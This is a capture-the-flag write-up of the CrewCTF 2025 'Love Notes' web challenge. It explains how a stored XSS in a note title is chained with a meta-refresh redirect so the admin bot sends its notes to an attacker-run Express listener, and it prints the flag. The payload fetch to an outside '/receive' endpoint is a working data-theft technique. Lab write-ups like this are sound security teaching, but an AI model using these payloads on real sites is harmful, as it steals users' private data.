






# Love Notes — CrewCTF 2025

> **Room / Challenge:** Love Notes (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** CrewCTF 2025
- **Challenge:** Love Notes (web)
- **Target / URL:** `https://love-notes.chal.crewc.tf/`
- **Difficulty:** `Medium`
- **Points:** `50`
- **Tags:** web, xss, sqli, auth, enumeration
- **Date:** `20-09-2025`

---

## Goal

We have to get access to the flag `crew{...}` in the admin's note which the `bot` can view.

## My Solution

Firstly, you can examine the source code of the Love Notes, here is the link to it [Source Code](./love-notes.tar.gz).

The web app has really strict settings for response, you can find it right in the main `app.js`:

```javascript
app.use((req, res, next) => {
  // Prevent any attack
  res.setHeader("X-Frame-Options", "DENY");
  res.setHeader(
    "Content-Security-Policy",
    `script-src ${HOSTNAME}/static/dashboard.js https://js.hcaptcha.com/1/api.js; style-src ${HOSTNAME}/static/; img-src 'none'; connect-src 'self'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self'; frame-src 'none';`
  );
  res.setHeader("Referrer-Policy", "no-referrer");
  res.setHeader("Cache-Control", "no-store");
  next();
});
```

The `Content-Security-Policy` just accept script from `/static/dashboard.js` and `js.hcaptcha.com`.

This is the interface we'll see when open the website:



Try Sign up an account and Login to that account:



Above is the main interface for logged in user and there is no other sites so this must be where we can hack to the website and get the flag.

In `app.js`, there is a noticable `/report` route:

```javascript
const { spawn } = require("child_process");
app.post("/report", async (req, res) => {
  const noteId = req.body.noteId;

  if (typeof noteId !== "string") {
    res.status(400).send("Missing noteId");
    return;
  }

  try {
    const admin = await User.findOne().sort({ _id: 1 }).exec();
    const subprocess = spawn(
      "node",
      ["bot.js", admin.email, admin.password, noteId],
      {
        detached: true,
        stdio: "ignore",
      }
    );
    subprocess.unref();
    res.send("Thank you for your report.");
  } catch (e) {
    console.log(e);
    res.status(500).send("Error");
  }
});
```

So when we make a POST request to `/report` the server will spawn a bot logged in as admin and view that note, more details is in `bot.js`:

```javascript
async function visit(ctx, email, password, noteId) {
  page = await ctx.newPage();

  // login
  await page.goto(HOSTNAME + "/login");
  await page.waitForSelector("input[name=email]");
  await page.type("input[name=email]", email);
  await page.waitForSelector("input[name=password]");
  await page.type("input[name=password]", password);
  await page.waitForSelector("button[type=submit]");
  await page.click("button[type=submit]");

  // Review note
  await sleep(2000);
  try {
    await page.goto(HOSTNAME + "/dashboard?reviewNote=" + noteId);
  } catch (error) {
    console.log(error);
  }
  await sleep(2000);
  try {
    page.close();
  } catch {}
}
```

Let's try create a note and follow the workflow of the bot:

```
Title: <script>alert('Hi Crew 2025');</script>
Content: abc
```



Type in the URL: `/dashboard?reviewNote=<NOTE_ID>`, you can find the `NOTE_ID` by inspecting the note element


It doesn't show the alert as expected, however when you visit `/api/notes/<NOTE_ID>` you can see that the alert will appear.




Therefore, we can execute script in this page `/api/notes/<NOTE_ID>`. XSS (Cross-Site Scripting) will take place in this challenge.

Initially, I thought that I could take the cookie of the bot then used it to sign in as admin. But I found out that I can't because the cookie sent to the authenticated user via `/login` route has settings:

```javascript
res.cookie("token", token, {
  sameSite: "strict",
  httpOnly: true,
  secure: true,
  maxAge: 3600000, // 1 hour expiration time
});
```

This settings make it impossible to take the cookie and send to my listening server.

I came up with another solution that I don't need to take the cookie, I will force the bot to send the notes of the admin to my listening server.

Firstly, let's create a listening server to get the notes, I use Express to create mine:

```javascript
const express = require("express");
const cors = require("cors");
const path = require("path");
const fs = require("fs").promises;

const app = express();
const port = process.env.PORT || 8000;

// The origin of your front-end application.
// This is the URL that the browser is running on.
const frontendOrigin =
  "https://inst-<YOUR_WEBSITE_ID>-love-notes.chal.crewc.tf";

// Configure CORS to only allow your front-end origin.
// This is a crucial step to fix the error and ensure security.
app.use(
  cors({
    origin: frontendOrigin,
    credentials: true, // Set this to true if your frontend request in cludes credentials
  })
);
app.use(express.json()); // make sure body parser is enabled

app.post("/receive", async (req, res) => {
  try {
    const { payload } = req.body;
    if (typeof payload === "undefined") {
      return res.status(400).json({ error: "missing payload" });
    }

    const line = JSON.stringify(payload) + "\n";
    await fs.appendFile(path.join(__dirname, "out.ndjson"), line, "utf8");

    return res.status(204).end();
  } catch (error) {
    console.error("Error:", error);
    return res.status(500).json({ error: "internal_server_error" });
  }
});

// Start the Express server
app.listen(port, () => {
  console.log(`Proxy server listening at http://localhost:${port}`);
});
```

When the bot make a POST request to `/receive` with the body is the admin's notes, the server will write the data to `out.ndjson` then I host it with my hosting server (on cPanel).

Next, in the website I need two notes to achieve my purpose.

First post containing the script that will make the bot send admin's notes:

```
Title: <script>fetch('/api/notes').then(async res => {
    const jsonData = await res.json();

    fetch('https://<YOUR_SERVER_DOMAIN>/receive', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ payload: jsonData })
    });
})</script>

Content: Anything
```

Second post containing a meta tag that will make the bot automatically redirect to `/api/notes/<MY_SCRIPT_NOTE_ID>` since the `/dashboard?reviewNote=<NOTE_ID>` cannot execute script as we tested before.

```
Title: <meta http-equiv="refresh" content="0;url=/api/notes/<SCRIPT_NOTE_ID>">

Content: Anything
```



Now ensure that your server is running properly, click `report`.



After that, check your server files, you should see `out.ndjson`:

```json
[
  {
    "_id": "507fb9bf-afb7-437f-b81a-3951398c098d",
    "title": "Vorläufige Überlegungen",
    "content": "A spectre is haunting Europe – the spectre of communism. All the powers of old Europe have entered into a holy alliance to exorcise this spectre: Pope and Tsar, Metternich and Guizot, French Radicals and German police-spies."
  },
  {
    "_id": "96cf2f0b-fc5c-476b-a591-edc41326ec66",
    "title": "crew{csp_trick_with_a_bit_of_css_spices_fBi4WVX1kGzPtavs}",
    "content": "My heart’s beloved: I am writing you again, because I am alone and because it troubles me always to have a dialogue with you in my head, without your knowing anything about it or hearing it or being able to answer… There are many females in the world, and some among them are beautiful. But where could I find again a face, whose every feature, even every wrinkle, is a reminder of the greatest and sweetest memories of my life? Even my endless pains, my irreplaceable losses I read in your sweet countenance, and I kiss away the pain when I kiss your sweet face… "
  }
]
```


Currently, you can get the flag `crew{csp_trick_with_a_bit_of_css_spices_fBi4WVX1kGzPtavs}`.

## Lessons Learned

- XSS Scripting
- Problem Solving
- Examining Source Code Technique
